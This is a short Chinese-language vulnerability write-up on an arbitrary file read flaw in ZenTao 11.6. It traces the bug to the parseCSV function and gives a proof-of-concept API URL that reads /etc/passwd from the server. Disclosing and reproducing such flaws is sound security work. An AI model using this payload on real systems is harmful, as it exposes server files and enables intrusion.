 禅道 11.6 任意文件读取
======================

一、漏洞简介
------------

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：<https://www.zentao.net/>
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

二、漏洞影响
------------

禅道 11.6

禅道开源版 9版本

三、复现过程
------------

漏洞代码位于module/file/model.php中的parseCSV函数

![](resource/禅道11.6任意文件读取/media/rId25.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

    http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd

image
